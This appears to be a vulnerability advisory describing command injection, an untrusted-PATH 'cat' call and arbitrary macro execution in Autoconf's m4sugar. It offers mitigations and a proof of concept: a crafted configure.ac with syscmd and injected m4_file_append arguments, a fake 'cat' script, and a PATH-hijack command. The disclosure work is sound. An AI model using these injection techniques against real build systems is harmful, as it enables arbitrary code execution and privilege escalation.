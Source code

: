 # Overview 

Arbitrary Code execution can be obtained by running `/usr/bin/autoconf` when a crafted `configure.ac` exploits any of the following 3 vulnerabilities:

*  Command injection in M4sugar due to lack of input sanitization (CWE-78).
*  `cat` command being executed without absolute path in M4sugar, leaving it vulnerable to an untrusted PATH (CWE-427).
* Invocation of arbitrary m4 macros in `configure.ac`.


**Date**: 11/25/2023

**Researcher**: Ally Petitt

**Product Tested**: Autoconf v2.72c and prior (all but the 3rd bullet point were [fixed here](https://git.savannah.gnu.org/cgit/autoconf.git/commit/?id=11d8824daada20055c855f46ad7c45237c1ff455))

**Impact**: Remote code execution that leads to the loss of availability, confidentiality, and integrity of the system. In certain cases it can also lead to privilege escalation.


# Technical Details 

## M4sugar - Multiple Vulnerabilities
The `m4_file_append` macro is defined starting on line 3272 of `lib/m4sugar/m4sugar.m4`. 

```
m4_define([m4_file_append],
[m4_syscmd([cat >>$1 <<_m4eof
$2
_m4eof
])
```

This macro has 2 vulnerabilities. Proof-of-Concept examples of each will be shown in the "PoC" section to provide both clarification and an easy way to validate the issues.

1. The first vulnerability is that `cat` is called without an absolute path, leaving it prone to modification of the $PATH environmental variable. A privileged user on the system may set the $PATH to point to a directory they control containing a malicious executable called `cat`. In scenarios where `autoconf` has an SUID bit set or can otherwise be run with elevated privileges, this can lead to privilege escalation.

**Mitigation**: Replace "cat" with "/usr/bin/cat" in the definition of `m4_file_append`.

2. The arguments passed to `m4_file_append` are not sanitized before being passed into `m4_syscmd`. This means that hackers can directly insert malicious code as an argument to the macro and it will be executed when `autoconf` is ran!

**Mitigation**: If possible, implement a more secure way to append to a file that does not involve running shell commands. I wish I could provide more guidance here but I am not very proficient in m4. In the case that this is not feasible, treat `$1` and `$2` as untrusted input and sanitize them. 


## Autoconf - Invocation of Arbitrary M4 Macros 
Autoconf appears to execute m4 macros directly through the `configure.ac` file. Without any sanitization, adversaries are able invoke arbitrary macros including `syscmd` and the aforementioned vulnerable `m4_file_append`. This can lead to the execution of code upon running `autoconf`. An example will be shown in the "PoC" section below.

It is worth noting that while executing macros is part of Autoconf's functionality, I did not find evidence that the arbitrary execution of commands was an intentional part of this design. As such, the lack of restriction on the macros that can be called results in a larger attack surface that can be taken advantage of by hackers.

**Mitigation**: Enforce a whitelist of macros that are able to be executed from `configure.ac`.


# PoC

This Proof-of-Concept involves the creation of 4 files within the same directory. The contents of these files are the following (file names are commented at the top of each code block):

```
# congfigure.ac
AC_INIT([hello], [1.0])
AC_CONFIG_SRCDIR([hello.c])
AC_CONFIG_AUX_DIR([build-aux])
AC_PROG_CC

# Trigger the vulnerabilities by writing to a file called `vulns`
syscmd(echo vuln1 > vulns) # vuln1
m4_file_append(test, `echo vuln2 >> vulns`) # vuln2 and vuln3


AC_CONFIG_FILES([Makefile])
AC_OUTPUT
```

```
# Makefile.am
bin_PROGRAMS = hello
hello_SOURCES = hello.c
```

```
# hello.c
#include <stdio.h>
int main(int argc, char** argv) {
  printf("hello world!\n");
  return 0;
}
```

```
# cat
#!/bin/bash
echo vuln3 >> vulns
```

The resulting directory listing should be the following:

```
$ ls
cat  configure.ac  hello.c  Makefile.am
```

Once the files are verified to be correct, the 3 vulnerabilities can be exploited by running the command below.
```
$ export PATH=$(pwd):$PATH && autoconf
```

A new file will be created called `vulns`. Each vulnerability that was exploited wrote to this file to create the content below.
```
vuln1
vuln2
vuln3
```


Note that exploiting vulnerabilities 1 and 2 (the vulnerabilities that write "vuln1" and "vuln2" to the `vulns` file, respectively) does not require the $PATH environmental variable to be set and can simply be exploited with the below command.
```
$ autoconf --force
```

These files are included in this GitHub repository.

